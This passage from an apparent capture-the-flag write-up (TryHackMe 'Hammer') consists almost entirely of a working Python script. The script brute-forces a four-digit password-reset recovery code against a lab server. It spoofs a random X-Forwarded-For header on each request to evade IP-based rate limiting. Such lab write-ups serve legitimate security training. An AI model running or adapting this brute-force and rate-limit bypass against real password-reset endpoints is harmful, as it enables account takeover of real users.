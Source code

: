 ![10](/assets/img/tryhackme/ctf/hammer/10.png)

So we adjust our script by taking the `X-Forwarded-For` header in count :

```python
import requests
import random

# Target URL
url = "http://10.10.141.73:1337/reset_password.php"

# Headers with session cookie
base_headers = {
    "Host": "10.10.141.73:1337",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://10.10.141.73:1337",
    "Referer": "http://10.10.141.73:1337/reset_password.php",
    "Cookie": "PHPSESSID=fq0f19f1o8377hhtb4aclp3oib",  # Replace with your session cookie
    "Connection": "keep-alive",
    "Upgrade-Insecure-Requests": "1"
}

# Function to generate a random IP address
def random_ip():
    return ".".join(str(random.randint(0, 255)) for _ in range(4))

# Iterate over all possible 4-digit codes
for code in range(10000):
    recovery_code = f"{code:04}"  # Format as 4-digit number (e.g., 0001, 0023)
    data = {
        "recovery_code": recovery_code,
        "s": "180"  # Fixed value for 's' parameter
    }

    # Add a random X-Forwarded-For header
    headers = base_headers.copy()
    headers["X-Forwarded-For"] = random_ip()

    # Send POST request
    response = requests.post(url, headers=headers, data=data)

    # Check response content
    if "Invalid or expired recovery code!" not in response.text:
        print(f"[+] Recovery code found: {recovery_code}")
        print("[+] Response from server:", response.text)
        break
```